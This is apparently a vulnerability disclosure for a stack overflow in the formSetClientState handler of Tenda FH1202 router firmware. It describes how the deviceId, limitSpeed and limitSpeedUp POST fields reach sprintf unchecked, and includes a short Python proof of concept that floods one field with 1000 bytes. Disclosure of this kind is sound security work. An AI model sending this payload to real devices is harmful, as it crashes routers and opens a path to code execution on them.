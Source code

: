 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v3, v5, v4` variable receives the `deviceId, limitSpeed, limitSpeedUp` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceId, limitSpeed, limitSpeedUp` can trigger this security vulnerability.

![image-20240319230856245](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230856245.png)

![image-20240319230816679](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230816679.png)

![image-20240319230832735](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230832735.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"deviceId": payload}
# data = {'limitEn':1,"limitSpeed": payload}
# data = {'limitEn':1,"limitSpeedUp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319230908380](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230908380.png)
